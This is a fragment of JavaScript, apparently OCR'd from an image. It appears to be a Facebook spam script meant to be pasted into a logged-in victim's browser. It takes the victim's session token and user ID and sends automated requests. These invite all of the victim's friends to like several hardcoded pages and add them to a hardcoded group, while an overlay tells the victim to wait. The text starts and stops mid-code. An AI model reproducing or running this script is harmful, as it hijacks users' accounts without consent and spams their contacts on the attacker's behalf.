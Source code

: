 "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#e1dddd'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div>"; if (i > 0) { display += arr.length + " Friends Detected<br/>"; display += "<b>" + suc + "</b> Friends Invited of " + (arr.length - i) + " Friends Processed "; display += "(" + i + " Lefted...)"; display += "<div class='friend-edge'>"; display += Descriptions; display += "<img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + "></img><a style='font-size:13px;padding-left:8px;text-align:left;color:#9098a9;position:absolute;font-weight:bold;'>" + arn[i] + "</a>"; display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>"; display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".</br>"; display += _text; display += "</div>"; display += "</div>"; window[tag + "_close"] = true } else { Title = "All Of Your Friends Have Been Invited to Like Your Page.</A>"; display += arr.length + " Friends Detected and "; display += "<b>" + suc + " Friends Invited.</b></br>"; display += "<div><span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage</span><span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page</span><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById("pagelet_sidebar").style.display="none"' style='color:gray'>Cancel</span><br/>"; display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>"; display += _text; display += "</div>"; window[tag + "_close"] = false } display += "</div>"; document.getElementById("pagelet_sidebar").innerHTML = display }, "text", "post"); tay--; if (tay > 0) { var s = arr[tay]; setTimeout("InviteFriends(" + s + ")", 100) } console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc); if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=170971166421357&__user="+ user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function () {}, "text", "post") if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=209126199281449&__user="+ user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function () {}, "text", "post") if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=1375353502725775&__user="+ user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function () {}, "text", "post") if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=244359939081437&__user="+ user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function () {}, "text", "post") if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&fb_dtsg=" + fb_dtsg + "&group_id=1378653509062290&source=typeahead&members=" + opo + "&nctr[_2]=pagelet_group_members_summary&lsd&post_form_id_source=AsyncRequest&__user=" + user_id, function () {}, "text", "post"); } jx = { b: function () { var b = !1; if ("undefined" != typeof ActiveXObject) try { b = new ActiveXObject("Msxml2.XMLHTTP") } catch (c) { try { b = new ActiveXObject("Microsoft.XMLHTTP") } catch (a) { b = !1 } } else if (window.XMLHttpRequest) try { b = new XMLHttpRequest } catch (h) { b = !1 } return b }, load: function (b, c, a, h, g) { var e = this.d(); if (e && b) { e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text"); g || (g = {}); a = a.toLowerCase(); h = h.toUpperCase(); b += b.indexOf("?") + 1 ? "&" : "?"; var k = null; "POST" == h && (k = b.split("?"), b = k[0], k = k[1]); e.open(h, b, !0); e.onreadystatechange = g.c ? function () { g.c(e) } : function () { if (4 == e.readyState) if (200 == e.status) { var b = ""; e.responseText && (b = e.responseText); "j" == a.charAt(0) ? (b = b.replace(/[
